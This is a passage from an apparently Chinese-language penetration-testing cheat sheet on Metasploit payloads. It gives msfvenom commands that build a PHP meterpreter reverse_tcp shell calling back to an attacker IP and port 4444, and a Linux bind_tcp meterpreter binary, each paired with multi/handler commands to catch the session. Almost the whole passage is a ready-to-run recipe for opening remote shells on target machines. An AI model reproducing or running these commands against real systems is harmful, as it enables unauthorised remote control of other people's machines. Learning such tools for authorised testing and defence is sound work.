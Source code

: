   3. [PHP](https://www.fujieace.com/kali-linux/meterpreter-reverse_tcp-handler.html)
      ```
      msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.91.129 LPORT=4444 -f raw > shell.php

        msf  >  use exploit/multi/handler
        msf  >  set payload php/meterpreter_reverse_tcp  #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
      ```
      ![](img/3.png)

### bind_tcp
  1. linux
  > 这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
    ```
    msfvenom -p linux/x86/meterpreter/bind_tcp lport=4444  -f elf -o shell.elf    设置目标自己打开的端口

    MSF:
    use exploit/multi/handler
    set payload linux/x86/meterpreter/bind_tcp #设置的payload要和生成的相同
    set rhost 目标IP
    set lport 目标链接端口
    exploit
    ```



